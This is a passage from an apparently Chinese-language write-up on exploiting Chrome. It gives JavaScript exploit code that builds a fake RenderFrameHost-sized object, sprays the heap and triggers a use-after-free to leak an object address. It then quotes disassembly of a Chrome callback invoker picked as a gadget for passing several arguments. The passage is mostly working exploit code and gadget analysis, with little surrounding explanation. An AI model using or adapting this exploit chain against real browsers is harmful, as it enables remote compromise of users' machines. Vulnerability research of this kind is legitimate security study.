 对应的js代码：

```javascript
			const kGetFieldVptr = 0x69101D8n + ChromeDllBase;               // DictionaryIterator::Start	
			data = new ArrayBuffer(kRenderFrameHostSize);
            view = new DataView(data);
            offset = 0;
            view.setBigUint64(offset, kGetFieldAddrVptr - BigInt(kFirstCallVtableOffset), true);
            offset += kFieldAddrOffset;
            view.setBigUint64(offset, kGetFieldAddrVptr - BigInt(kSecondCallVtableOffset), true);
            offset += kFieldAddrOffset;
            view.setBigUint64(offset, kGetFieldVptr - BigInt(kThirdCallVtableOffset), true);
            view.setBigUint64(offset + kFieldOffset, wakeLockContextAddr + BigInt(kWakeLockContextWebContentsOffset) - 0x28n, true);            // 0x28 for DictionaryIterator::Start
            
            provider_ptr = await getFreedPtr();
            let heap2 = await spray(data);
            await triggerUAF(provider_ptr);
            offset = 0x28;
            results = await Promise.all(heap2.map((a) => a.readQword(offset)));
            let bufLeak = undefined;
            for (var i = 0; i < results.length; i++) {
                if (results[i] != 0) {
                    bufLeak = results[i];
                }
            }
            if (bufLeak == undefined) {
                print("\t[!] stage2 failed.. retrying");
                continue;
            }
            print("leak this: " + bufLeak.toString(16));
```

至此我们就泄露了this地址，等于我们知道了我们可控区域的地址，这里的泄露建议多调试调试，一堆的虚函数call很容易搞乱

#### 寻找callback

我们需要找到一个能传递多个参数的回调函数：

```cpp
.text:0000000184B6210A ; void base::internal::Invoker<base::internal::BindState<void (gpu::SharedImageInterfaceInProcess::*)(gpu::CommandBufferTaskExecutor *,gpu::ImageFactory *,gpu::MemoryTracker *),base::internal::UnretainedWrapper<gpu::SharedImageInterfaceInProcess>,gpu::CommandBufferTaskExecutor *,gpu::ImageFactory *,gpu::MemoryTracker *>,void (void)>::RunOnce(void)
.text:0000000184B6210A ?RunOnce@?$Invoker@U?$BindState@P8SharedImageInterfaceInProcess@gpu@@EAAXPEAVCommandBufferTaskExecutor@2@PEAVImageFactory@2@PEAVMemoryTracker@2@@ZV?$UnretainedWrapper@VSharedImageInterfaceInProcess@gpu@@@internal@base@@PEAV32@PEAV42@PEAV52@@internal@base@@$$A6AXXZ@internal@base@@SAXPEAVBindStateBase@23@@Z proc near
.text:0000000184B6210A                                         ; DATA XREF: gpu::SharedImageInterfaceInProcess::SharedImageInterfaceInProcess(gpu::CommandBufferTaskExecutor *,gpu::SingleTaskSequence *,util::IdType<gpu::CommandBuffer,unsigned __int64,0>,gpu::MailboxManager *,gpu::ImageFactory *,gpu::MemoryTracker *,std::unique_ptr<gpu::InProcessCommandBuffer::SharedImageInterfaceHelper>)+B6↑o
.text:0000000184B6210A                 mov     r10, [rcx+20h]
.text:0000000184B6210E                 mov     rax, [rcx+28h]
.text:0000000184B62112                 mov     r9, [rcx+40h]
.text:0000000184B62116                 mov     r8, [rcx+38h]
.text:0000000184B6211A                 mov     rdx, [rcx+30h]
.text:0000000184B6211E                 mov     rcx, rax
.text:0000000184B62121                 jmp     r10
.text:0000000184B62121 ?RunOnce@?$Invoker@U?$BindState@P8SharedImageInterfaceInProcess@gpu@@EAAXPEAVCommandBufferTaskExecutor@2@PEAVImageFactory@2@PEAVMemoryTracker@2@@ZV?$UnretainedWrapper@VSharedImageInterfaceInProcess@gpu@@@internal@base@@PEAV32@PEAV42@PEAV52@@internal@base@@$$A6AXXZ@internal@base@@SAXPEAVBindStateBase@23@@Z endp
.text:0000000184B62121
```
